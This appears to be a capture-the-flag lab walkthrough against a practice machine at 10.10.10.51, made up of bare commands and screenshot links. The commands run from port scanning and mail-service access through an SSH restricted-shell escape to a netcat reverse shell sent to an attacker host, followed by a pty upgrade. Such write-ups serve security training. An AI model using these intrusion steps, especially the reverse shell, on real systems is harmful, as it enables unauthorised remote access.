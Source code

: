 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.51
```
![image](https://user-images.githubusercontent.com/33616880/232411290-0737e4a9-3728-48cc-8020-4d623612be4c.png)



![image](https://user-images.githubusercontent.com/33616880/232411391-2215be98-0a72-481c-ada2-a785cb0045de.png)



```
nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/33616880/232411422-93d8116f-02c2-4fdf-b374-6702e705afc7.png)



```
telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/33616880/232411664-8c8044ef-1c89-441b-853f-55518768d4d7.png)
![image](https://user-images.githubusercontent.com/33616880/232411688-9d73ae68-51d5-401c-b5b3-b72917a225a4.png)



![image](https://user-images.githubusercontent.com/33616880/232411771-ce69392f-c335-4296-b432-bad7cf52866c.png)



```
ssh mindy@10.10.10.51 -t bash
```
![image](https://user-images.githubusercontent.com/33616880/232411850-787a182b-1bf5-409f-b09d-8b6d55570d87.png)



```
nc -e /bin/sh 10.10.14.7 4444
```
![image](https://user-images.githubusercontent.com/33616880/232412026-ce4ec090-a949-4f8d-ac04-58a730fc8cfd.png)
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/232412051-828a625b-5617-4f42-994f-026aeb567b26.png)

